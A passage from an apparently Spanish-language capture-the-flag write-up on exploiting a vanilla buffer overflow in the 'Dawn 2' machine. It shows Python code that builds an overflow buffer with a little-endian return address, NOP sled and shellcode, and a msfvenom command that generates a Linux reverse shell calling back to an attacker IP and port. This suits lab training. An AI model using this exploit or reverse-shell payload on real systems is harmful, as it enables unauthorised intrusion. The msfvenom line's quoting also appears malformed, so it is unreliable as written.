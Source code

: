 <iframe width="560" height="315" src="https://www.youtube.com/embed/Y8cRUK7jky4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Se puede utilizar el módulo struct para convertir el valor HEX en little-endian y no tener que reversear la dirección poniendola en hexadecimal manualmente:
> Documentación de la librería struct: [https://docs.python.org/3/library/struct.html](https://docs.python.org/3/library/struct.html)

```python
pushesp = struct.pack("<I", 0x34581777)
buffer = "A"*272 + pushesp + "\x90"*20 + shell + "\x00"
```

## Explotación de la máquina

En la máquina del CTF se hará uso de una reverse shell en Linux que será necesario generar y modificar en el exploit.

```python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.186 LPORT=9001 -f c -b '\x00 EXITFUNC=thread'
```

Una vez ejecutado, se puede observar que desde el netcat se recibe la shell de la máquina, dandonos acceso a la misma.

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721174535.png" height="500" width="825" /></p>
